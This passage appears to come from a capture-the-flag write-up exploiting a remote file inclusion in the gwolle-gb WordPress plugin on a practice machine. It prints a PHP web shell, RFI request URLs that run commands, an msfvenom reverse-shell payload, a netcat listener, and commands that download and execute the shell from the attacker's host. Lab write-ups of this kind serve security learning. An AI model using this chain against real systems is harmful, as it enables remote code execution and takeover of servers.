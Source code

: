 Looks like we're in business. Now to try with a PHP payload. Make file `wp-load.php`:

```php
<?php
 $cmd=$_GET['cmd'];
 system($cmd);
?>
```

Then start python http server on port 80

```sh
sudo python3 -m http.server
```

And visit our url with a new query param of the command we want to run:

```
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.10/&cmd=id
```

![](img/rfi-id.png)

Boom.

Time to turn it into an interactive shell.

```sh
# alias for URL encoding text
❯ alias urlencode='python3 -c '\''import sys,os,urllib.parse as url;s=" ".join(sys.argv[1:]) if len(sys.argv)>1 else sys.stdin.read().encode();print(url.quote_plus(os.fsencode(s)))'\'

# get host architechture
❯ curl -s "10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.14/&cmd=$(urlencode uname -a)"
Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 athlon i686 GNU/Linux

# check wget installed
❯ curl -s "10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.14/&cmd=$(urlencode which wget)"
/usr/bin/wget

# make 32-bit linux reverse shell
❯ msfvenom -f elf -o rsh.elf -p linux/x86/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443

# start shell listener
❯ sudo nc -lvnp 443

# download binary on victim
❯ curl -s "10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.14/&cmd=$(urlencode wget -P /tmp 10.10.14.14/rsh.elf)"

# set as executable
❯ curl -s "10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.14/&cmd=$(urlencode chmod +x /tmp/rsh.elf)"

# execute reverse shell
❯ curl -s "10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.14/&cmd=$(urlencode /tmp/rsh.elf)"
```